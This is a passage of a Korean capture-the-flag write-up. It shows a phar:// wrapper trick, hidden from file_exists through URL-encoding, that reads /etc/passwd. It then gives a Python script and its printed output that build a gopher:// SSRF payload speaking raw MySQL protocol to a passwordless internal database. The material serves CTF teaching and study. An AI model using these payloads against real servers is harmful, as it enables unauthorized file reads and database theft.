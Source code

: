 이제 위 코드로 생성된 파일을 phar wrapper로 열기위해 우선 서버에 업로드합니다. 

저는 shpik_etcpasswd.jpg의 이름을 사용하였습니다.

그 후 phar://shpik_etcpasswd.jpg를 업로드 해야하는데, file_exists안에 urldecode가 있으므로 아래와 같은 파일을 업로드 하였습니다.

**filename :** phar%3a%2f%2fshpik_etcpasswd.jpg

![](/Users/osehun/Git-CTF/my_prob/Cat-Proxy/img3.png)

/etc/passwd가 정상적으로 읽힌 것을 볼 수있습니다.

만약 flag가 파일로 존재할 경우 우리가 가지고 있는 취약점을 이용해서는 파일 이름을 알아낼 수가 없으므로, database안에 있을꺼라 생각합니다.

database는 mysql로써, 패스워드가 존재하지 않습니다.

그러면 gopher wrapper을 이용해 mysql에 접속하여 데이터를 추출합니다.

gopher을 통해 mysql의 데이터를 추출하기 위해 raw socket을 이용해야하며, 제가 사용한 코드는 아래와 같습니다.

```python
import struct

def raw_encode(data):
    query = ''
    for i in range(len(data)/2):
        query += '%' + data[2*i:2*(i+1)]
    return unicode(query)

p_4 = lambda x:struct.pack('<L',x)

# SSRF MySQL without password
username = 'cat'
username = username.encode('hex')

# prefix + username(hex) + \x00 + password(\x00) + suffix
connect =  "85a21e0000000040080000000000000000000000000000000000000000000000"
connect += username
connect += '00'
connect += '00'
connect += "6d7973716c5f6e61746976655f70617373776f72640061035f6f730964656269616e362e300c5f636c69656e745f6e616d65086c69626d7973716c045f7069640532323334340f5f636c69656e745f76657273696f6e08352e362e362d6d39095f706c6174666f726d067838365f363403666f6f03626172"
connect = hex(len(connect)/2)[2:]+"000001"+connect

# \x03 = exec query
query = "select * from information_schema.tables where table_schema='cat';"
raw_query = "03"
raw_query += query.encode('hex')
raw_query = p_4(len(query)+1).encode('hex')+raw_query

# quit
disconnect = '0100000001'

data = raw_encode(connect + raw_query + disconnect)

print "gopher://catproxy_db_1:3306/_"+data
'''
$ python mysql_raw_connect.py
gopher://catproxy_db_1:3306/_%9d%00%00%01%85%a2%1e%00%00%00%00%40%08%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%63%61%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%61%03%5f%6f%73%09%64%65%62%69%61%6e%36%2e%30%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%32%33%34%34%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%08%35%2e%36%2e%36%2d%6d%39%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%03%66%6f%6f%03%62%61%72%42%00%00%00%03%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%2e%74%61%62%6c%65%73%20%77%68%65%72%65%20%74%61%62%6c%65%5f%73%63%68%65%6d%61%3d%27%63%61%74%27%3b%01%00%00%00%01
'''
```